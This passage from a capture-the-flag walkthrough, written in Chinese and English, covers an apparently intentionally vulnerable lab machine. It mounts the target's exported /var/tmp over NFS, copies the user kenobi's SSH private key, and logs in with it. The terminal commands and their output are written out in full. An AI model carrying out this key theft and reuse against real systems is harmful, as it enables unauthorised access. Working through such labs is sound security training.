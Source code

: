 We knew that the /var directory was a mount we could see. So we've now moved Kenobi's private key to the /var/tmp directory.

把/var/tmp挂载到我们自己的机器上：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ mkdir /mnt/kenobiNFS
mkdir: cannot create directory ‘/mnt/kenobiNFS’: Permission denied

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ sudo mmkdir /mnt/kenobiNFS
sudo: mmkdir: command not found

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ sudo mkdir /mnt/kenobiNFS

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ cd /mnt

┌──(v4ler1an㉿kali)-[/mnt]
└─$ ls
ls: cannot access 'hgfs': Input/output error
hgfs  kenobiNFS

┌──(v4ler1an㉿kali)-[/mnt]
└─$ sudo mount 10.10.46.200:/var/tmp /mnt/kenobiNFS

┌──(v4ler1an㉿kali)-[/mnt]
└─$ ls -la /mnt/kenobiNFS
total 28
drwxrwxrwt 6 root     root     4096 Mar  5 22:39 .
drwxr-xr-x 4 root     root     4096 Mar  5 22:41 ..
-rw-r--r-- 1 v4ler1an v4ler1an 1675 Mar  5 22:39 id_rsa
drwx------ 3 root     root     4096 Sep  4  2019 systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
drwx------ 3 root     root     4096 Sep  4  2019 systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
drwx------ 3 root     root     4096 Sep  4  2019 systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
drwx------ 3 root     root     4096 Mar  5 22:12 systemd-private-ee05fedf0dd847fabad553360be89561-systemd-timesyncd.service-0uazTq
```

此时可以拿到id_rsa文件，我们就用这个文件去远程连接ssh：

```shell
┌──(v4ler1an㉿kali)-[/mnt]
└─$ cp /mnt/kenobiNFS/id_rsa ~/Documents/tmp/id_rsa

┌──(v4ler1an㉿kali)-[/mnt]
└─$ cd ~/Documents/tmp/

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ chmod 600 id_rsa

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ ssh -i ./id_rsa kenobi@10.10.46.200
The authenticity of host '10.10.46.200 (10.10.46.200)' can't be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.46.200' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
```